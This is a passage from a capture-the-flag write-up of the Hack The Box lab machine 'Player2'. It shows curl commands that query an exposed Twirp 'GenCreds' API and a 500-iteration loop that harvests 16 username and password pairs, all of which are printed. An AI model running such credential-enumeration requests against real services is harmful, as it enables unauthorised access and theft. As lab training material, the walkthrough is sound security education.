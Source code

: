     
    
    root@kali# curl -s --request POST --location "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"number": 1}' | jq .
    {
      "name": "snowscan",
      "pass": "Lp-+Q8umLW5*7qkc"
    }
    

There’s a reference to snowscan, who is a fixture in the top five in the [HTB
Hall of Fame](https://www.hackthebox.eu/home/hof). More importantly, it looks
like creds.

I noticed that if I ran the same request again, I got a different username and
password:

    
    
    root@kali# curl -s --request POST --location "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"number": 1}' | jq .
    {
      "name": "jkr",
      "pass": "ze+EKe-SGF^5uZQX"
    }
    

jkr is another brilliant HTB player, and a new password. I ran it 500 times to
see how many different combinations came back. Each time in this loop, it will
use `curl` to get the JSON creds structure, and then add a newline. The
results will then be passed to `sort -u`, which will get only the unique
values. Then I’ll use `tee` to save the unique creds to `creds.json`, and then
`wc -l` to see how many there are.

    
    
    root@kali# for i in {1..500}; do 
    >   curl -s -X POST -H "Content-Type:application/json" -d '{"number": 2}' http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds;
    >   echo; 
    > done | sort -u | tee creds.json | wc -l
    16
    

The number posted doesn’t seem to matter. This always returns 16 different
sets of credentials.

Looking at the creds, its each combination of four users (I’m honored to be
one of them) and four passwords:

    
    
    root@kali# cat creds.json 
    {"name":"0xdf","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"0xdf","pass":"tR@dQnwnZEk95*6#"}
    {"name":"0xdf","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"0xdf","pass":"ze+EKe-SGF^5uZQX"}
    {"name":"jkr","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"jkr","pass":"tR@dQnwnZEk95*6#"}
    {"name":"jkr","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"jkr","pass":"ze+EKe-SGF^5uZQX"}
    {"name":"mprox","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"mprox","pass":"tR@dQnwnZEk95*6#"}
    {"name":"mprox","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"mprox","pass":"ze+EKe-SGF^5uZQX"}
    {"name":"snowscan","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"snowscan","pass":"tR@dQnwnZEk95*6#"}
    {"name":"snowscan","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"snowscan","pass":"ze+EKe-SGF^5uZQX"}
    